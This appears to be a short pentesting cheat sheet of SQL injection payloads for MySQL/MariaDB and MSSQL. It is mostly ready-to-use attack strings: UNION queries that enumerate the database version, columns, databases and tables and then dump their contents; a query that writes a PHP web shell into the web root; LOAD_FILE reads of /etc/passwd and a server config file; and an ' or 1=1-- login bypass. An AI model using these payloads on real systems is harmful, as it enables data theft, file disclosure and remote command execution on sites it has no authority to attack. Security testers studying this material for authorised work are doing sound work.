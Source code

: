 # Pentest Web
## SQL Injection and Abuse MSSQL
### SQL Injection - MySQL/MariaDB
-> get version
```
-1 union select 1,2,version();#
```

-> get number columns
```
-1 order by 3;#
```

-> get database name
```
-1 union select 1,2,database();#
```

-> get table name
```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```

-> get column name
``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```

-> dump
```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```

#### Webshell via SQLI - MySQL
```
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```
 
#### Reading Files via SQLI - MySQL
e.g  
```
SELECT LOAD_FILE('/etc/passwd')
```

### MSSQL Injection

-> Bypass Authentication
```
' or 1=1--
```
